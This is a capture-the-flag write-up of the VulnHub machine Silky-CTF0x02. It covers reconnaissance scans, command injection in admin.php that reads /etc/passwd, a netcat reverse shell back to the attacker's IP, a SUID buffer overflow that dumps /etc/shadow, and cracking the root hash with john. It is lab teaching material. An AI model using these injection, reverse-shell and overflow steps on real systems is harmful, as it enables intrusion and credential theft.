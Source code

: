# Silky-CTF0x02 Writeup  
###### Author: Anthony Criscione (arc32x)  
###### (.ova available on VulnHub)


## Info Gathering

### *nmap -p- -T4 -A -v silky*
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### *dirb http://silky*
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### *nikto -h http://silky*
- **Found nothing of interest**

### *nikto -h "http://silky/admin.php?username=&password="*
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: *nc -lvp 4444*
  - Target: *nc 192.168.56.102 4444 -e /bin/sh*
  - Better terminal with python: *python -c "import pty; pty.spawn('/bin/bash')"*


## Privilege Escalation

### *sudo -l*
- **Found nothing of interest (password required)**

### *find / -perm -u=s -type f 2>/dev/null*
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run *./cat_shadow*; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: *msf-pattern_create -l 100*
      - Pattern returned: **Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A**
    - Target: *./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A*
      - Target returned: **0x63413163 != 0x496c5962**
    - Attacker: *msf-pattern_offset -q 63413163*
      - Offset returned: **Exact match at offset 64**
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: *./cat_shadow $(python -c "print 'A'\*64 + '\\x62\\x59\\x6c\\x49'")*
- Exploit successful! The target shadow file is printed to the terminal.

```bash
Trying to read /etc/shadow  
Succes  
Printing...  
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
daemon:*:18012:0:99999:7:::  
[redacted]  
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
mysql:!:18012:0:99999:7:::  
sshd:*:18012:0:99999:7:::  
```

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as **silky_shadow**). Also printed and copied contents of **/etc/passwd** (saved as **silky_passwd**).
- *unshadow silky_passwd silky_shadow > silky_john*
- *john silky_john --wordlist=/usr/share/wordlists/rockyou.txt*
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password **greygrey**.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
